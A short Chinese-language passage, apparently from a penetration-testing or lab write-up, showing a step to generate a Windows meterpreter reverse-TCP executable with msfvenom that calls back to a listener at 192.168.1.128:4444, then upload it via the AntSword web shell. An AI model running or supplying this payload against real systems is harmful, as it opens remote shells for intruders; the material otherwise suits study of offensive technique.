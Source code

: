 <img src="image/image-20240409172839785.png" alt="image-20240409172839785" style="zoom:80%;" />

<img src="image/image-20240409172843059.png" alt="image-20240409172843059" style="zoom:80%;" />

### 上线msf

先生成一个pyload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.128 LPORT=4444 -f exe > abc.exe 
```

然后通过蚁剑上传到目录文件
